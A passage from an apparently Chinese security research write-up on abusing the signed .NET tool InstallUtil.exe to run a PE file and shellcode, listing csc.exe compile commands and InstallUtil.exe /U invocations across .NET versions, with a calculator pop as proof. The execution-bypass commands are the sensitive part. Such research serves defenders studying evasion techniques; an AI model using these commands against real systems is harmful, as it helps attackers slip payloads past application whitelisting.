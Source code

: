 默认.net环境，支持4.0，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0b4f91dad95c6e6793f7ce8c6ac0f01b41c31a28.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 4.0成功执行

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/18dd55195e0e824467574252c3227798cada8995.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

使用.net 4.0 x64中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/cfbf25df012a97f717665d358993946c0dc5c31a.jpg)

使用.net 4.0 x86中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/2325732c925d22591d8b690234896a82e1208b48.jpg)

为了得出正确的结论，在win8 x64系统上面安装.net framework x64 2.0

使用其中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器
